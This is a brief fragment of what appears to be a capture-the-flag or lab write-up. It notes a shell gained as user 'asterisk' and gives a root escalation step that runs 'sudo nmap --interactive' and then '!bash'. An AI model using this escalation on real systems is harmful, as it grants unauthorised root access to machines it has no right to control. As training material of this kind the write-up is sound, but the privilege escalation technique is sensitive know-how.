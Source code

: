 ![image-20220928000500497](./images/image-20220928000500497.png)

got shell, user asterisk

![image-20220928000606055](./images/image-20220928000606055.png)

root is easy, which is already in the exploit. 

sudo namp with interactive param

```bash
sudo nmap --interactive

!bash
```
